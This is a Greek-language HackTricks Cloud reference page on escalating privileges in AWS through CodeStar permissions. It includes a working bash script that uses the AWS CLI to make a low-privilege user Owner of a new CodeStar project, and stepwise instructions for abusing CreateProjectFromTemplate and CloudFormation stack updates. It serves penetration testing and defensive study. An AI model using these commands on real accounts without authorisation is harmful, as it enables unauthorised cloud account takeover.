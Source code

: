 # AWS - Επέκταση Προνομίων στο Codestar

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Codestar

Μπορείτε να βρείτε περισσότερες πληροφορίες σχετικά με το codestar στο:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

Με αυτές τις άδειες μπορείτε να **καταχραστείτε έναν ρόλο codestar IAM** για να εκτελέσετε **αυθαίρετες ενέργειες** μέσω ενός **προτύπου cloudformation**. Ελέγξτε την παρακάτω σελίδα:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Αυτή η τεχνική χρησιμοποιεί το `codestar:CreateProject` για να δημιουργήσει ένα έργο codestar και το `codestar:AssociateTeamMember` για να καθορίσει έναν χρήστη IAM ως **ιδιοκτήτη** ενός νέου έργου CodeStar, το οποίο θα του παραχωρήσει μια **νέα πολιτική με μερικές επιπλέον άδειες**.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Εάν είστε ήδη **μέλος του έργου**, μπορείτε να χρησιμοποιήσετε την άδεια **`codestar:UpdateTeamMember`** για να **ενημερώσετε τον ρόλο σας** σε ιδιοκτήτη αντί για `codestar:AssociateTeamMember`

**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων στην πολιτική codestar που δημιουργήθηκε. Μπορείτε να βρείτε ένα παράδειγμα αυτής της πολιτικής στο:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **Δημιουργία Νέου Έργου:**
- Χρησιμοποιήστε την ενέργεια **`codestar:CreateProjectFromTemplate`** για να ξεκινήσετε τη δημιουργία ενός νέου έργου.
- Μετά την επιτυχή δημιουργία, αυτόματα παρέχεται πρόσβαση για το **`cloudformation:UpdateStack`**.
- Αυτή η πρόσβαση στοχεύει ειδικά ένα stack που συσχετίζεται με τον ρόλο IAM `CodeStarWorker-<γενικό όνομα έργου>-CloudFormation`.

2. **Ενημέρωση του Στοχευμένου Stack:**
- Με τα παρεχόμενα δικαιώματα CloudFormation, προχωρήστε στην ενημέρωση του συγκεκριμένου stack.
- Το όνομα του stack συνήθως ακολουθεί έναν από τους δύο παρακάτω προτύπους:
- `awscodestar-<γενικό όνομα έργου>-infrastructure`
- `awscodestar-<γενικό όνομα έργου>-lambda`
- Το ακριβές όνομα εξαρτάται από το επιλεγμένο πρότυπο (αναφέροντας το παράδειγμα του εκμεταλλευτικού σεναρίου).

3. **Πρόσβαση και Δικαιώματα:**
- Μετά την ενημέρωση, αποκτάτε τις δυνατότητες που έχουν ανατεθεί στον **ρόλο IAM του CloudFormation** που συσχετίζεται με το stack.
- Σημείωση: Αυτό δεν παρέχει από μόνο του πλήρη δικαιώματα διαχειριστή. Μπορεί να απαιτηθούν επιπλέον μη παραμετροποιημένοι πόροι εντός του περιβάλλοντος για να αναβαθμίσετε περαιτέρω τα δικαιώματα.

Για περισσότερες πληροφορίες, ανατρέξτε στην αρχική έρευνα: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Μπορείτε να βρείτε το εκμεταλλευτικό σενάριο στο [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py)

**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων στον ρόλο cloudformation IAM.

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** Ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

